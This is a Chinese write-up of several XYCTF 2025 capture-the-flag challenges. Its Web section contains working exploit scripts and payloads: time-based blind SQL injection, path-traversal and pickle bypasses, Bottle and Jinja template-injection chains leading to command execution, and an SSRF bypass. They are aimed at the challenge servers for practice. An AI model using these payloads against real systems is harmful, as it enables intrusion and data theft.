# 2025XYCTF部分wp-先知社区

> **来源**: https://xz.aliyun.com/news/17723  
> **文章ID**: 17723

---

## Misc

### 问卷

通过访问<https://www.wjx.cn/vm/r8BpK59.aspx>填写即可


### XGCTF

<https://www.cnblogs.com/LAMENTXU/p/18691608>

找到年终总结



然后找博客。

<https://dragonkeeep.top/category/CISCN%E5%8D%8E%E4%B8%9C%E5%8D%97WEB-Polluted/>

页面源码中有flag。



flag{1t\_I3\_t3E\_s@Me\_ChAl1eNge\_aT\_a1L\_P1e@se\_fOrg1ve\_Me}

### 会飞的雷克萨斯


地图查找



对比附件建筑，确定是这里。




结合一下。

flag{四川省内江市资中县春岚北路中铁城市中心内}

### 曼波曼波曼波

txt很像base64，但是解码不了，发现等号在最前面，进行逆序，然后再base64解码，是一张图片。

```
import base64

# 读取 smn.txt 中的第一行
with open('smn.txt', 'r') as f:
    line = f.readline().strip()

# 将字符串逆序
reversed_line = line[::-1]

# Base64 解码
try:
    image_data = base64.b64decode(reversed_line)
except Exception as e:
    print("Base64 解码失败:", e)
    exit(1)

# 保存为图片
with open('1.png', 'wb') as img_file:
    img_file.write(image_data)

print("已成功保存为 1.png")
```

随波逐流发现有文件在里面，Binwalk提取。



解压压缩包，提示密码为XYCTF2025，继续解压，得到一张图片。

结合前面的一张图片，双图片盲水印。

```
#!/usr/bin/env python
# -*- coding: utf8 -*-

import sys
import random

cmd = None
debug = False
seed = 20160930
oldseed = False
alpha = 3.0

if __name__ == '__main__':
    if '-h' in sys.argv or '--help' in sys.argv or len(sys.argv) < 2:
        print ('Usage: python bwm.py <cmd> [arg...] [opts...]')
        print ('  cmds:')
        print ('    encode <image> <watermark> <image(encoded)>')
        print ('           image + watermark -> image(encoded)')
        print ('    decode <image> <image(encoded)> <watermark>')
        print ('           image + image(encoded) -> watermark')
        print ('  opts:')
        print ('    --debug,          Show debug')
        print ('    --seed <int>,     Manual setting random seed (default is 20160930)')
        print ('    --oldseed         Use python2 random algorithm.')
        print ('    --alpha <float>,  Manual setting alpha (default is 3.0)')
        sys.exit(1)
    cmd = sys.argv[1]
    if cmd != 'encode' and cmd != 'decode':
        print ('Wrong cmd %s' % cmd)
        sys.exit(1)
    if '--debug' in sys.argv:
        debug = True
        del sys.argv[sys.argv.index('--debug')]
    if '--seed' in sys.argv:
        p = sys.argv.index('--seed')
        if len(sys.argv) <= p+1:
            print ('Missing <int> for --seed')
            sys.exit(1)
        seed = int(sys.argv[p+1])
        del sys.argv[p+1]
        del sys.argv[p]
    if '--oldseed' in sys.argv:
        oldseed = True
        del sys.argv[sys.argv.index('--oldseed')]
    if '--alpha' in sys.argv:
        p = sys.argv.index('--alpha')
        if len(sys.argv) <= p+1:
            print ('Missing <float> for --alpha')
            sys.exit(1)
        alpha = float(sys.argv[p+1])
        del sys.argv[p+1]
        del sys.argv[p]
    if len(sys.argv) < 5:
        print ('Missing arg...')
        sys.exit(1)
    fn1 = sys.argv[2]
    fn2 = sys.argv[3]
    fn3 = sys.argv[4]

import cv2
import numpy as np
import matplotlib.pyplot as plt

# OpenCV是以(BGR)的顺序存储图像数据的
# 而Matplotlib是以(RGB)的顺序显示图像的
def bgr_to_rgb(img):
    b, g, r = cv2.split(img)
    return cv2.merge([r, g, b])

if cmd == 'encode':
    print ('image<%s> + watermark<%s> -> image(encoded)<%s>' % (fn1, fn2, fn3))
    img = cv2.imread(fn1)
    wm = cv2.imread(fn2)

    if debug:
        plt.subplot(231), plt.imshow(bgr_to_rgb(img)), plt.title('image')
        plt.xticks([]), plt.yticks([])
        plt.subplot(234), plt.imshow(bgr_to_rgb(wm)), plt.title('watermark')
        plt.xticks([]), plt.yticks([])

    # print img.shape # 高, 宽, 通道
    h, w = img.shape[0], img.shape[1]
    hwm = np.zeros((int(h * 0.5), w, img.shape[2]))
    assert hwm.shape[0] > wm.shape[0]
    assert hwm.shape[1] > wm.shape[1]
    hwm2 = np.copy(hwm)
    for i in range(wm.shape[0]):
        for j in range(wm.shape[1]):
            hwm2[i][j] = wm[i][j]

    if oldseed: random.seed(seed,version=1)
    else: random.seed(seed)
    m, n = list(range(hwm.shape[0])), list(range(hwm.shape[1]))
    if oldseed:
        random.shuffle(m,random=random.random)
        random.shuffle(n,random=random.random)
    else:
        random.shuffle(m)
        random.shuffle(n)

    for i in range(hwm.shape[0]):
        for j in range(hwm.shape[1]):
            hwm[i][j] = hwm2[m[i]][n[j]]

    rwm = np.zeros(img.shape)
    for i in range(hwm.shape[0]):
        for j in range(hwm.shape[1]):
            rwm[i][j] = hwm[i][j]
            rwm[rwm.shape[0] - i - 1][rwm.shape[1] - j - 1] = hwm[i][j]

    if debug:
        plt.subplot(235), plt.imshow(bgr_to_rgb(rwm)), \
            plt.title('encrypted(watermark)')
        plt.xticks([]), plt.yticks([])

    f1 = np.fft.fft2(img)
    f2 = f1 + alpha * rwm
    _img = np.fft.ifft2(f2)

    if debug:
        plt.subplot(232), plt.imshow(bgr_to_rgb(np.real(f1))), \
            plt.title('fft(image)')
        plt.xticks([]), plt.yticks([])

    img_wm = np.real(_img)

    assert cv2.imwrite(fn3, img_wm, [int(cv2.IMWRITE_JPEG_QUALITY), 100])

    # 这里计算下保存前后的(溢出)误差
    img_wm2 = cv2.imread(fn3)
    sum = 0
    for i in range(img_wm.shape[0]):
        for j in range(img_wm.shape[1]):
            for k in range(img_wm.shape[2]):
                sum += np.power(img_wm[i][j][k] - img_wm2[i][j][k], 2)
    miss = np.sqrt(sum) / (img_wm.shape[0] * img_wm.shape[1] * img_wm.shape[2]) * 100
    print ('Miss %s%% in save' % miss)

    if debug:
        plt.subplot(233), plt.imshow(bgr_to_rgb(np.uint8(img_wm))), \
            plt.title('image(encoded)')
        plt.xticks([]), plt.yticks([])

    f2 = np.fft.fft2(img_wm)
    rwm = (f2 - f1) / alpha
    rwm = np.real(rwm)

    wm = np.zeros(rwm.shape)
    for i in range(int(rwm.shape[0] * 0.5)):
        for j in range(rwm.shape[1]):
            wm[m[i]][n[j]] = np.uint8(rwm[i][j])
    for i in range(int(rwm.shape[0] * 0.5)):
        for j in range(rwm.shape[1]):
            wm[rwm.shape[0] - i - 1][rwm.shape[1] - j - 1] = wm[i][j]

    if debug:
        assert cv2.imwrite('_bwm.debug.wm.jpg', wm)
        plt.subplot(236), plt.imshow(bgr_to_rgb(wm)), plt.title(u'watermark')
        plt.xticks([]), plt.yticks([])

    if debug:
        plt.show()

elif cmd == 'decode':
    print ('image<%s> + image(encoded)<%s> -> watermark<%s>' % (fn1, fn2, fn3))
    img = cv2.imread(fn1)
    img_wm = cv2.imread(fn2)

    if debug:
        plt.subplot(231), plt.imshow(bgr_to_rgb(img)), plt.title('image')
        plt.xticks([]), plt.yticks([])
        plt.subplot(234), plt.imshow(bgr_to_rgb(img_wm)), plt.title('image(encoded)')
        plt.xticks([]), plt.yticks([])

    if oldseed: random.seed(seed,version=1)
    else: random.seed(seed)
    m, n = list(range(int(img.shape[0] * 0.5))), list(range(img.shape[1]))
    if oldseed:
        random.shuffle(m,random=random.random)
        random.shuffle(n,random=random.random)
    else:
        random.shuffle(m)
        random.shuffle(n)

    f1 = np.fft.fft2(img)
    f2 = np.fft.fft2(img_wm)

    if debug:
        plt.subplot(232), plt.imshow(bgr_to_rgb(np.real(f1))), \
            plt.title('fft(image)')
        plt.xticks([]), plt.yticks([])
        plt.subplot(235), plt.imshow(bgr_to_rgb(np.real(f1))), \
            plt.title('fft(image(encoded))')
        plt.xticks([]), plt.yticks([])

    rwm = (f2 - f1) / alpha
    rwm = np.real(rwm)

    if debug:
        plt.subplot(233), plt.imshow(bgr_to_rgb(rwm)), \
            plt.title('encrypted(watermark)')
        plt.xticks([]), plt.yticks([])

    wm = np.zeros(rwm.shape)
    for i in range(int(rwm.shape[0] * 0.5)):
        for j in range(rwm.shape[1]):
            wm[m[i]][n[j]] = np.uint8(rwm[i][j])
    for i in range(int(rwm.shape[0] * 0.5)):
        for j in range(rwm.shape[1]):
            wm[rwm.shape[0] - i - 1][rwm.shape[1] - j - 1] = wm[i][j]
    assert cv2.imwrite(fn3, wm)

    if debug:
        plt.subplot(236), plt.imshow(bgr_to_rgb(wm)), plt.title(u'watermark')
        plt.xticks([]), plt.yticks([])

    if debug:
        plt.show()
```

梭哈。

```
python3 bwmforpy3.py decode 1.png 2.png 3.png
```




XYCTF{easy\_yin\_xie\_dfbfuj877}

|  |  |
| --- | --- |
| MADer也要当CTFer |  |

|  |  |
| --- | --- |
| MADer也要当CTFer |  |

|  |  |
| --- | --- |
| MADer也要当CTFer |  |

### MADer也要当ctfer

mkv文件,打开发现播放长度不同

题目提示为调整视频,但经过简单调整颜色位置大小等并没收获,放在工具中也并也发现隐写

用网上的小网站提取一下字幕流ass,



使用脚本将二进制文件提出16进制,然后转成文件再读取

瞎读,看见了一堆乱码里不太一样的东西



## Web

### ezsql(手动滑稽)

时间盲注，首先在测试过程中发现一个页面。

```
username=1'%09or%091#&password=1
```

即可触发。



逐步测试发现过滤了空格，逗号等，但是sleep存在，编写脚本。

```
import requests
import time
url = "http://eci-2ze18ay1g1nd4yhlvpa8.cloudeci1.ichunqiu.com"
ans = ""
for pos in range(1, 32):
    for ascii_code in range(32, 127):
        payload = f"1%27%09or%09sleep%28%28ascii%28mid%28database%28%29from%28{pos}%29for%281%29%29%29%3D{ascii_code}%29%29%23"
        data = f"username={payload}&password=1"
        headers = {
            "Content-Type": "application/x-www-form-urlencoded"
        }
        start = time.time()
        res = requests.post(f"{url}/login.php", data=data, headers=headers)
        end = time.time()
        result = end - start
        if result > 1:
            ans += chr(ascii_code)
            print(str(pos) + ":" + chr(ascii_code))
            print(ans)
```



后续逐步跑脚本，下面是拿key的脚本。

```
import requests
import time
url = "http://eci-2ze18ay1g1nd4yhlvpa8.cloudeci1.ichunqiu.com"
ans = ""
for pos in range(1, 32):
    for ascii_code in range(32, 127):
        payload = f"1%27%09or%09sleep%28%28ascii%28mid%28%28select%09secret%09from%09double_check%29from%28{pos}%29for%281%29%29%29%3D{ascii_code}%29%29%23"
        data = f"username={payload}&password=1"
        headers = {
            "Content-Type": "application/x-www-form-urlencoded"
        }
        start = time.time()
        res = requests.post(f"{url}/login.php", data=data, headers=headers)
        end = time.time()
        result = end - start
        if result > 1:
            ans += chr(ascii_code)
            print(str(pos) + ":" + chr(ascii_code))
            print(ans)
```



key：

dtfrtkcc0czkoua9S

进来之后rce。





源码里面有提示，不过有一些waf。

```
command=cat%09/f*>1.txt
```



### Signin

首先源文件里面给了一个python源码

```
# -*- encoding: utf-8 -*-
'''
@File    :   main.py
@Time    :   2025/03/28 22:20:49
@Author  :   LamentXU 
'''
'''
flag in /flag_{uuid4}
'''
from bottle import Bottle, request, response, redirect, static_file, run, route
with open('../../secret.txt', 'r') as f:
    secret = f.read()

app = Bottle()
@route('/')
def index():
    return '''HI'''
@route('/download')
def download():
    name = request.query.filename
    if '../../' in name or name.startswith('/') or name.startswith('../') or '\' in name:
        response.status = 403
        return 'Forbidden'
    with open(name, 'rb') as f:
        data = f.read()
    return data

@route('/secret')
def secret_page():
    try:
        session = request.get_cookie("name", secret=secret)
        if not session or session["name"] == "guest":
            session = {"name": "admin"}
            response.set_cookie("name", session, secret=secret)
            return 'Forbidden!'
        if session["name"] == "admin":
            return 'The secret has been deleted!'
    except:
        return "Error!"
run(host='0.0.0.0', port=8080, debug=False)
```

这里存在两个路由，一个是download，这个路由是用来实现任意文件读取的操作，而/secret路由是获取对应cookie字段值的，在获取字段值时存在pickle反序列化，前提是读取secret.txt

这里进行了waf，绕过waf可以通过 ./.././../secret.txt来进行读取



接下来通过原来的函数来实现伪造pickle反序列化流即可，再读取文件即可







### ez\_puzzle

view-source://访问页面源代码，然后f12，调试，但是好像不行。直接ctrl+s保存源码，从网络里面把图片脱下来，本地部署项目。



js题一般通过alert来进行弹出flag，然后改条件判断。



根据题目描述两秒内解决问题，猜测if进入弹出的是flag，修改为1不做判断进入if语句。

本地部署完成拼图即可。



### 出题人已疯

```
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2025/03/29 15:52:17
@Author  :   LamentXU 
'''
import bottle
'''
flag in /flag
'''
@bottle.route('/')
def index():
    return 'Hello, World!'
@bottle.route('/attack')
def attack():
    payload = bottle.request.query.get('payload')
    if payload and len(payload) > 25:
        bottle.abort(400, '>25')
    elif payload and 'open' in payload:
        bottle.abort(400, 'open')
    elif payload and '\' in payload:
        bottle.abort(400, '\')
    else:
        return bottle.template('hello '+payload)
if __name__ == '__main__':
    bottle.run(host='0.0.0.0', port=5000)
```

修改源码进行调试，这个\不知道是禁什么，这里无法进行换行绕过，估计就是需要短的payload进行flag的读取，题目明确说明flag在/flag。

{{open('/flag').read()}}接近25，尝试用一些特殊字符绕过。

<https://www.lddgo.net/string/full-half-width-converter>

这里全角好像字符会超。

<https://symbl.cc/cn/unicode-table/#latin-1-supplement>

这里面有很多短的。



00是省略的，我们直接用他的BA就行了，URL编码%BA。

/attack?payload={{%BApen(%27/flag%27).read()}}



flag{L@men7XU\_d0es\_n0t\_w@nt\_t0\_g0\_t0\_scho01}

### fate

题目附件给了两个附件，一个为app.py，还有一个为init\_db.py

app.py信息如下

```
#!/usr/bin/env python3
import flask
import sqlite3
import requests
import string
import json
app = flask.Flask(__name__)
blacklist = string.ascii_letters
def binary_to_string(binary_string):
    if len(binary_string) % 8 != 0:
        raise ValueError("Binary string length must be a multiple of 8")
    binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
    string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
    
    return string_output

@app.route('/proxy', methods=['GET'])
def nolettersproxy():
    url = flask.request.args.get('url')
    if not url:
        return flask.abort(400, 'No URL provided')
    
    target_url = "http://lamentxu.top" + url
    for i in blacklist:
        if i in url:
            return flask.abort(403, 'I blacklist the whole alphabet, hiahiahiahiahiahiahia~~~~~~')
    if "." in url:
        return flask.abort(403, 'No ssrf allowed')
    response = requests.get(target_url)

    return flask.Response(response.content, response.status_code)
def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT FATE FROM FATETABLE WHERE NAME=UPPER(UPPER(UPPER(UPPER(UPPER(UPPER(UPPER('{code}')))))))")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    print(flask.request.remote_addr)
    return flask.render_template("index.html")

@app.route('/1337', methods=['GET'])
def api_search():
    if flask.request.remote_addr == '127.0.0.1':
        code = flask.request.args.get('0')
        if code == 'abcdefghi':
            req = flask.request.args.get('1')
            try:
                req = binary_to_string(req)
                print(req)
                req = json.loads(req) # No one can hack it, right? Pickle unserialize is not secure, but json is ;)
            except:
                flask.abort(400, "Invalid JSON")
            if 'name' not in req:
                flask.abort(400, "Empty Person's name")

            name = req['name']
            if len(name) > 6:
                flask.abort(400, "Too long")
            if '\'' in name:
                flask.abort(400, "NO '")
            if ')' in name:
                flask.abort(400, "NO )")
            """
            Some waf hidden here ;)
            """

            fate = db_search(name)
            if fate is None:
                flask.abort(404, "No such Person")

            return {'Fate': fate}
        else:
            flask.abort(400, "Hello local, and hello hacker")
    else:
        flask.abort(403, "Only local access allowed")

if __name__ == '__main__':
    app.run(debug=True)
```

这里可以很明显看到/proxy里面有一个ssrf的点，但是它过滤了所有的字符，所以我们得绕过

思路就是先绕过本地的限制，因为再/1337需要为本地访问才可以，下面就是满足/1337的两层要求，最后就是sql注入获取flag

这里的ssrf点，通过将我们传入的url参数进行拼接到<http://lamentxu.top>后面，我们可以通过@0:8080来绕过使前面的url无效，下面就是满足/1337的条件

这里需要传入第一个参数为abcdefghi，但是不能出现字母，但是requests.get方法在访问时会将起url进行解码，通过这一点我们就可以想到通过二次url编码绕过，这里是将所有字符二次编码

/proxy?url=@0:8080/1337?0=%2561%2562%2563%2564%2565%2566%2567%2568%2569

在往后，这里获取第二个参数，对其进行特殊处理，实现通过分段，每八位为一组，后面又是通过件二进制数转字符串拼接，处理后通过json的方式来进行解析

```
def binary_to_string(binary_string):
      if len(binary_string) % 8 != 0:
        raise ValueError("Binary string length must be a multiple of 8")
    binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
    string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
    
    return string_output
```

所以这里的思路就是通过8位二进制数来进行绕过，这里通过c语言代码来实现

```
#include <stdio.h>
#include <string.h>
#include <ctype.h>

// 函数：将一个字节转换为8位二进制字符串
void byte_to_binary(char byte, char *binary_str) {
    for (int i = 7; i >= 0; i--) {
        binary_str[7 - i] = (byte >> i) & 1 ? '1' : '0';
    }
    binary_str[8] = '\0'; // 确保字符串以null结尾
}

int main() {
    char input[1024]; // 输入字符串
    char binary_result[1024 * 9]; // 存储二进制结果（每个字符8位）

    while (1) {
        printf("请输入一个字符串（输入'exit'退出）：");
        if (fgets(input, sizeof(input), stdin) == NULL) {
            break; // 如果读取输入失败，退出循环
        }

        // 去掉换行符
        input[strcspn(input, "
")] = '\0';

        // 检查是否输入了退出命令
        if (strcmp(input, "exit") == 0) {
            break;
        }

        char *ptr = binary_result;
        for (int i = 0; i < strlen(input); i++) {
            char binary[9]; // 存储单个字符的8位二进制
            byte_to_binary(input[i], binary);
            strcpy(ptr, binary);
            ptr += 8;
        }
        *ptr = '\0'; // 确保字符串以null结尾

        printf("二进制表示：
%s
", binary_result);
    }

    return 0;
}
```

最后就是获取flag的绕过,如果我们直接传{"name":"LAMENTXU"}这里的name长度就大于6了会触发waf



这里就得通过json在处理非字符串的差异来实现绕过，下面是一个类似环境的脚本，可以查看最后的走到sql语句时拼接后的语句是什么，下面的脚本的用法

由于是本地，我们可以直接访问/1337?0=abcdefghi&1=二进制数

```
import flask
import sqlite3
import requests
import string
import json
app = flask.Flask(__name__)
blacklist = string.ascii_letters
def binary_to_string(binary_string):
    if len(binary_string) % 8 != 0:
        raise ValueError("Binary string length must be a multiple of 8")
    binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
    string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
    
    return string_output
#print(binary_to_string("011110110010001001101110011000010110110101100101001110100010001000100111010111100011000001111101"))
def db_search(code):
    print(code)
    # with sqlite3.connect('database.db') as conn:
    #     cur = conn.cursor()
    print(f"SELECT FATE FROM FATETABLE WHERE NAME=UPPER(UPPER(UPPER(UPPER(UPPER(UPPER(UPPER('{code}')))))))")
        # found = cur.fetchone()
    # return None if found is None else found[0]
    return "aaaaa"
@app.route('/')
def index():
    print(flask.request.remote_addr)
    return flask.render_template("index.html")

@app.route('/1337', methods=['GET'])
def api_search():
    if flask.request.remote_addr == '127.0.0.1':
        code = flask.request.args.get('0')
        if code == 'abcdefghi':
            req = flask.request.args.get('1')
            print("req:", req)
            print("Type of req:", type(req))
            # return f"req: {req}, type: {type(req)}"
            try:
                req = binary_to_string(req)
                print(req)
                req = json.loads(req) # No one can hack it, right? Pickle unserialize is not secure, but json is ;)
            except:
                flask.abort(400, "Invalid JSON")
            if 'name' not in req:
                flask.abort(400, "Empty Person's name")

            name = req['name']
            print(type(name))
            print(len(name))
            print(name)
            if len(name) > 6:
                flask.abort(400, "Too long")
            if '\'' in name: #{"')))))":"aaa"}
                flask.abort(400, "NO '")
            if ')' in name:
                flask.abort(400, "NO )")
            """
            Some waf hidden here ;)
            """

            fate = db_search(name)
            if fate is None:
                flask.abort(404, "No such Person")

            return {'Fate': fate}
        else:
            flask.abort(400, "Hello local, and hello hacker")
    else:
        flask.abort(403, "Only local access allowed")

if __name__ == '__main__':
    app.run(debug=True)
```

若我们传入的name类型为一个字典类型时，及{"name":{"')":"a"}}，此时name就是{"')":"a"}，字典的长度是其键的个数，这里的键为 ') ，只有一个所以长度为1。这里有一个注意点，我们的键为 ') ,但是没有触发waf的原因如下：在黑名单检测中如果name为字符串就检查它是否包含有 ' 和 ( ，但是我们如果是字典类型的话，它就转为查看是否字典中的键存在以 ' 或者 ( 命名，而 ') 就不满足该条件，所以这里就可以绕过黑名单，如下图

我们可以看到在传入字典后，这里的')可以用来闭合语句，如果键值为{"name":{"')))))) -- a":"a"}}这样的话就可以注释后面的闭合前面的，这个就满足我们的union查询的条件了



如下图，通过闭合和union注入，最后的payload需要有变通，因为最后的name="LAMENTXU"这里必需为双引号，导致我们传入的时它会将对应用来闭合的符号都改为单引号，所以我们前面的 ' 就省了,如下图测试结果







### 出题人又疯

跟之前没什么区别

{{%BApen(%27/flag%27).re%aad()}}

flag{L@men7XU\_d0es\_n0t\_w@nt\_t0\_t@ke\_@ny\_f\*\*king\_exams}



不过很多双字节的字母用不了。



<https://symbl.cc/cn/unicode-table/#arabic>

### Now you see me 1

战了三天的题目。

禁了很多关键点，就不一一列举了。注意request有残余。

request.mimetype - Content-Type

request.origin - Origin

request.referrer - Referer

request.endpoint - 代码函数有关

然后可以利用索引去取到一些字符。例如代码中有函数 r3al\_ins1de\_th0ught 。

request.endpoint.4 即为下划线 \_。虽然这个不可控，但是另外三个我们可以随便控制，也就是可以进行任意字符串的构造，按理来说直接一行把用得到的字符丢进去然后随便取就行了，我这里测试的时候按需取得，所以有点麻烦。

下线之后再上线的题目有点变化，题目环境的waf和给出的源码有些不一样，例如refer，setattr，g|a这种还是存在的，我们可以直接构造config的链子。

我们先利用 request.endpoint.4 拼接一个下划线。

```
{%set%09xx=request.endpoint.4~request.endpoint.4%}
```



写了个小脚本，原本打算自动化的，还是半自动保险一些。

```
import inspect

import requests


def get_var_name(var):
    callers_local_vars = inspect.currentframe().f_back.f_locals.items()
    return [name for name, val in callers_local_vars if val is var]


def mystrs_(name, s, num):
    result = "{%set%09"
    result = result + name + "=xx~"
    for i in range(len(s)):
        result += f"request.mimetype.{i + num}~"
    result += "xx%}"
    return result


def mystrs(name, s, num):
    result = "{%set%09"
    result = result + name + "="
    for i in range(len(s)):
        result += f"request.mimetype.{i + num}~"
    result = result[:-1] + "%}"
    return result


def myre():
    aa = "class"
    bb = "init"
    cc = "globals"

    local_vars = inspect.currentframe().f_locals

    vars_list = []
    for name, val in local_vars.items():
        if isinstance(val, str):
            vars_list.append((name, val))

    strs_ = ''.join(val for _, val in vars_list)

    my_parts = []
    offset = 0
    for _, val in vars_list:
        name = get_var_name(val)[0]
        my_parts.append(mystrs_(name, val, offset))
        offset += len(val)

    my = ''.join(my_parts)
    return strs_, my


url = "http://eci-2ze137gfkzlkr6uing2z.cloudeci1.ichunqiu.com:8080/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-"
_ = "{%set%09xx=request.endpoint.4~request.endpoint.4%}"

strs_, my = myre()
strs = ""
headers = {
    "Content-Type": strs_,
}
# print(strs_)
# print(my)
# payload = ""
# url = url + _ + my + payload
# url = url.replace("{%","%7b%25")
# url = url.replace("%}","%25%7d")
# print(url)

aa = "class"
print(mystrs_("aa", aa, 0))
```

主要用到了mystrs\_这个函数，根据变量名，变量内容，起始索引生成对应的数据。

利用上述生成的 class 。



```
{%set%09aa=xx~request.mimetype.0~request.mimetype.1~request.mimetype.2~request.mimetype.3~request.mimetype.4~xx%}
```

并在 Content-Type 里面补上 class 。然后尝试获取 config 的 class。



然后依次操作可以获取到对应的 builtins 。原始链子如下：





然后里面有 eval 我们能够取到，这里应该算非预期了，题目删除的模块限制不了这边的 eval 环境。



构造链如下，对于不需要双下划线的 eval 可以调我前面脚本中的 mystrs 函数。



然后利用这个 eval 方法去执行 python 代码了。注意前面是一个整体，然后调用它的参数，要加上括号包裹。然后这里执行代码的部分没有使用拼接了，采用 request.origin 方便我们随便构造。



可以看到能够直接执行命令了。链子如下。





然后去读flag



flag不像是文本文件，并且很大，压缩之后也会很大。机器中有nc，wget等一系列命令，但是好像是不出网的，静态污染也没成功，直接base64也不行，只能分块进行base64.

base64 /flag\_h3r3 | cut -c1-50 # 读前50字符

base64 /flag\_h3r3 | cut -c51-100 # 接着读

dd if=/flag\_h3r3 bs=1 count=50 2>/dev/null | base64

dd if=/flag\_h3r3 bs=1 skip=50 count=50 2>/dev/null | base64

ai 给了好几种，第一个整体 base64 之后再取字节明显效率不高，根据第二种编写脚本。

```
import requests
import base64


def get_cmd(skip):
    return f"dd if=/flag_h3r3 bs=1 count=50000 skip={skip} 2>/dev/null | base64"


url = "http://eci-2ze9d3w0o6ffuc23smqv.cloudeci1.ichunqiu.com:8080/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-{%set%09xx=request.endpoint.4~request.endpoint.4%}{%set%09aa=xx~request.mimetype.0~request.mimetype.1~request.mimetype.2~request.mimetype.3~request.mimetype.4~xx%}{%set%09bb=xx~request.mimetype.5~request.mimetype.6~request.mimetype.7~request.mimetype.8~xx%}{%set%09cc=xx~request.mimetype.9~request.mimetype.10~request.mimetype.11~request.mimetype.12~request.mimetype.13~request.mimetype.14~request.mimetype.15~xx%}{%set%09dd=xx~request.mimetype.16~request.mimetype.17~request.mimetype.18~request.mimetype.19~request.mimetype.20~request.mimetype.21~request.mimetype.22~request.mimetype.23~xx%}{%set%09ee=request.mimetype.24~request.mimetype.25~request.mimetype.26~request.mimetype.27%}{%set%09ab=xx~request.mimetype.28~request.mimetype.29~request.mimetype.30~request.mimetype.31~xx%}{%set%09ac=xx~request.mimetype.32~request.mimetype.33~request.mimetype.34~request.mimetype.35~request.mimetype.36~request.mimetype.37~request.mimetype.38~request.mimetype.39~request.mimetype.40~request.mimetype.41~xx%}{%set%09ae=xx~request.mimetype.42~request.mimetype.43~request.mimetype.44~request.mimetype.45~request.mimetype.46~request.mimetype.47~request.mimetype.48~xx%}"
url = url.replace("{%","%7b%25")
url = url.replace("%}","%25%7d")
with open('flag', 'wb') as f:
    for skip in range(0, 20236270, 50000):
        cmd = get_cmd(skip)
        headers = {
            "Origin": f"__import__('os').popen('{cmd}').read()",
            "Content-Type": "classinitglobalsbuiltinsevalbasesubclassesgetitem"
        }
        res = requests.get(url, headers=headers)
        base64_data = res.text[18:].replace("
", "")
        decoded_data = base64.b64decode(base64_data)
        f.write(decoded_data)
        print(f"已写入 {skip + 50000} 字节")
print("文件写入完成！")
```

生成之后 010 看一下，其实就直接出了。



很明显的 flag 字段，但看着是个 wav 可以丢 DeepSound 里面看。





flag{N0w\_y0u\_sEEEEEEEEEEEEEEE\_m3!!!!!!}

拿到最终的 flag 。中间还试过了应该是预期解的部分，不过没成功。构造出如下链子：



这里是可以加载到 os 的，然后依次把被修改的三个模块全部加载，然后进行命令执行。



好像还是被 waf 了。然后除了 config ，还有 request 、setattr 等去拿 eval 也可以。





## Reverse

### WARMUP

得到的结果是一个rc4加密脚本，给出了密钥

```
Decoded string:MsgBox "Dear CTFER. Have fun in XYCTF 2025!"
flag = InputBox("Enter the FLAG:", "XYCTF")
wefbuwiue = "90df4407ee093d309098d85a42be57a2979f1e51463a31e8d15e2fac4e84ea0df622a55c4ddfb535ef3e51e8b2528b826d5347e165912e99118333151273cc3fa8b2b3b413cf2bdb1e8c9c52865efc095a8dd89b3b3cfbb200bbadbf4a6cd4" ' ?????C4??????????????????
qwfe = "rc4key"

' ??????RC4??????
Function RunRC(sMessage, strKey)
    Dim kLen, i, j, temp, pos, outHex
    Dim s(255), k(255)

    ' ????????
    kLen = Len(strKey)
    For i = 0 To 255
        s(i) = i
        k(i) = Asc(Mid(strKey, (i Mod kLen) + 1, 1)) ' ??????ASCII???
    Next

    ' KSA??????
    j = 0
    For i = 0 To 255
        j = (j + s(i) + k(i)) Mod 256
        temp = s(i)
        s(i) = s(j)
        s(j) = temp
    Next

    ' PRGA??????
    i = 0 : j = 0 : outHex = ""
    For pos = 1 To Len(sMessage)
        i = (i + 1) Mod 256
        j = (j + s(i)) Mod 256
        temp = s(i)
        s(i) = s(j)
        s(j) = temp

        ' ??????????????
        Dim plainChar, cipherByte
        plainChar = Asc(Mid(sMessage, pos, 1)) ' ?????SCII???
        cipherByte = s((s(i) + s(j)) Mod 256) Xor plainChar
        outHex = outHex & Right("0" & Hex(cipherByte), 2)
    Next

    RunRC = outHex
End Function

' ???????
If LCase(RunRC(flag, qwfe)) = LCase(wefbuwiue) Then
    MsgBox "Congratulations! Correct FLAG!"
Else
    MsgBox "Wrong flag."
End If
```

```
def rc4_decrypt(cipher_hex, key):
    # 将16进制字符串转换为字节数组
    cipher_bytes = bytes.fromhex(cipher_hex)
    
    # KSA初始化S盒
    s = list(range(256))
    j = 0
    key_bytes = key.encode()
    key_length = len(key_bytes)
    
    # KSA阶段
    for i in range(256):
        j = (j + s[i] + key_bytes[i % key_length]) % 256
        s[i], s[j] = s[j], s[i]
    
    # PRGA阶段生成密钥流
    i = j = 0
    plain_bytes = []
    for byte in cipher_bytes:
        i = (i + 1) % 256
        j = (j + s[i]) % 256
        s[i], s[j] = s[j], s[i]
        k = s[(s[i] + s[j]) % 256]
        plain_bytes.append(byte ^ k)
    
    return bytes(plain_bytes).decode(errors='ignore')

# 给定的加密数据和密钥
encrypted_hex = "90df4407ee093d309098d85a42be57a2979f1e51463a31e8d15e2fac4e84ea0df622a55c4ddfb535ef3e51e8b2528b826d5347e165912e99118333151273cc3fa8b2b3b413cf2bdb1e8c9c52865efc095a8dd89b3b3cfbb200bbadbf4a6cd4"
rc4_key = "rc4key"

# 解密并输出结果
flag = rc4_decrypt(encrypted_hex, rc4_key)
print("Decrypted Flag:", flag)
```

输出结果为：Decrypted Flag: flag{We1c0me\_t0\_XYCTF\_2025\_reverse\_ch@lleng3\_by\_th3\_w@y\_p3cd0wn's\_chall\_is\_r3@lly\_gr3@t\_&\_fuN!}

根据题目提示转为：XYCTF{5f9f46c147645dd1e2c8044325d4f93c}

### Dragon



用file检查时发现是LLVM

直接在win的vs环境中使用clang将bc编译

clang Dragon.bc -o Dragon.exe

